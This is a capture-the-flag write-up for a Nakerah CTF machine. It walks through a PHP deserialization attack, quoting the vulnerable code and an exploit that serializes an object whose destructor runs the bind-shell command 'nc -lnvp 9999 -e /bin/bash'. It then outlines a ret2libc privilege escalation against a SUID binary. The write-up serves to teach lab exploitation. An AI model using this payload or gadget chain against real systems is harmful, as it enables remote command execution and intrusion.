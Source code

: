 <div align="center"><h1>Nakerah CTF </h1></div>
Peace, mercy and blessings of God 

today we are going to solve an interesting CTF from  [Nakerah!](www.nakerah.net)
>our goal is to read root's flag  
expolit will be devided into two missions first deserilization attack then ret2libc

so with all that being said; let's right jump in !!

# First mission

#### first we have that static page 
[logo]: img/1.png
![alt text](img/1.png "static page")

#### looking around source code nothing interested there 
[logo]: img/2.png
![alt text](img/2.png "source code")

#### so let's nmap it
[logo]: img/3.png
![alt text](img/3.png "nmap result")

as we see we have some other ports 
* 22 ssh we dont have any creds and it seems to be updated
* 25 smtp is filtered so we maybe come back to it later
* 80 http we already checked it
#### so lets visit port 8080 and see what behind the scene
[logo]: img/4.png
![alt text](img/4.png "port 8080")

#### just another blank page (: i get bored so let's gobuster it :XD
 [logo]: img/5.png
![alt text](img/5.png "gobuster")

 ####  we have /backup file seems to be interesting let's dump it
 [logo]: img/6.png
![alt text](img/6.png "source code")

 #### after downloading the file it's php code 
 [logo]: img/7.png
![alt text](img/7.png "backup file")

 # analysis of code
 ```php
 class exCommand{
        public function __destruct(){
            system($this->command);
        }
    }
 ```
* here it creates an exCommand class and use a magic method `destruct` then pass the value of command propert to `system` function
Destruct is php magic method automatically called and allows you to perform some operations before destroying an object which will be our attack vector

```php
class Hello{
        private $name;
        private $role;
        private $isSet;
        public function check(){
           $this->isSet=isset($_COOKIE['name']);
        }
        
        }
    }
```

* here creating class Hello with some private properties and check function to verify if there's a cookie name  

```php
public function printHello(){
            if($this->isSet){
                echo "<br >" . $_COOKIE['name']."<br /><br /><br />";
                echo "Hello " . $this->name . "<br>";
                echo "your role is " . $this->role . "\n";
                echo "<br ><br ><br >";
            }else{
                echo "good";
            }
```

* another function `printHello` fisrt verify if there's a property isSet it will print our cookie, say hello to our cookie name and print our role but if not it will just print good

```php
$obj = unserialize($_COOKIE['name']);
$obj->check();
$obj->printHello();
```

* at last here it create an var, assign it's value to our deserialized cookie passing it to check and `printHello` functions

```console 
so to stay focus here it's `deserilization attack` and we need to pass our command to exCommand function which has that magic method
we have two problems first with exCommand class we used a property command without identifying it so in our exploit we will have to pass it to an object and  give it a vlaue
second problem  we have to bypass that cookie checks so let's write our exploit code
the trick here is if we bypass check function it will just print some staff and if we try to target our exCommand class it will fail with check function so ...
```

#### so we will create `exCommand object`, identify command property with a value (our command) put it inside  `Hello calss` and selialize all that staff together

[logo]: img/ex.png
![alt text](img/ex.png "exploit code")

# code analysis:

```php
class exCommand{
   public function __destruct()}
   system($this->command);
   }
   }
 ```
 
*here we just create the same exCommand class,

```php
$x = new exCommand;
$x->command = "nc -lnvp 9999 -e /bin/bash";
create our object and give the command property our target command (bind shell)$y = new Hello;
class Hello{
        public $name;
        public $role;
        public $isSet;
        public $dummy;
}
```

* create class hello with some properites (dummy one is interesring just continue ..!)

```php
$y->name = "fady";
$y->role = "hacker";
$y->isSet = 1;
$y->dummy = $x;
print serialize($y);
```

* creating an oject of Hello class assing some values to properties and what interesting here it that dummy propety we gave it a value of #### our exCommand object and finally serialize all that staff and here is our final serialized data

[logo]: img/8.png
![alt text](img/8.png "serialized data")

#### and let's try connect
[logo]: img/9.png
![alt text](img/9.png "spawingin a shell")

* and voila we get our shell fisrt missin completed successfully
---
# Second mission

#### in the root dir we got file 
[logo]: img/11.png
![alt text](img/11.png "static page")

>NX which stand for non-executable so here we know it's BOF expolit with ret2libc

#### after some enum we got that interesting suid file

[logo]: img/12.png
![alt text](img/12.png "static page")

so after getting it in our local machine to understand it better 

[logo]: img/13.png
![alt text](img/13.png "static page")

#### we can identify that NX is enables trying to run it gives seg fault after trying passing some args it just exit

[logo]: img/14.png
![alt text](img/14.png "static page")

#### so let's create our buffer with msf-patter-create and fire up gdb to get the exact offset

[logo]: img/15.png
![alt text](img/15.png "static page")

#### to get things more easily let's check ASLR in the vectim machine

[logo]: img/16.png
![alt text](img/16.png "static page")

#### and happy news  will make our life easier so hence we will work in our target machine to get some address

[logo]: img/17.png
![alt text](img/17.png "static page")

#### we got addresses of system and exit now we need address of /bin/sh

[logo]: img/18.png
![alt text](img/18.png "static page")

#### to get the exact address of /bin/sh in the run time we add its address to the starting of libc address

[logo]: img/19.png
![alt text](img/19.png "static page")

#### now our exploit is complete lets have a lock at it

[logo]: img/20.png
![alt text](img/20.png "static page")

#### now let's give it a try

[logo]: img/21.png
![alt text](img/21.png "static page")

and finally i want to say to Nakerah team “You're the best.”
 
